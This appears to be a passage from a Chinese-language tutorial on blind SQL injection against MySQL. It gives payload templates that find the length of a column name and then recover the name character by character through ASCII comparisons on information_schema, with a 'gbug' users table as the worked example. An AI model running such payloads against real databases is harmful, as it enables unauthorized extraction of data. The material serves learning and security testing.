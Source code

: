 #### 判断字段名长度

```mysql
AND ((SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=2)
```

```
gbug 数据库的users表的第一个字段长度为 2
```

![image-20250222021028544](static/image/image-20250222021028544.png)

#### 判断字段名

```mysql
AND ((SELECT ASCII(SUBSTR(column_name,第x位,1)) FROM information_schema.columns WHERE table_name='表名' and table_schema='数据库名' limit 第x个字段,1)=ascii码)
```

```
ascii码 105 对应的字符是 i，数据库 gbug的users表中的第一个字段完整的字段名为 id，第一位是 i
```
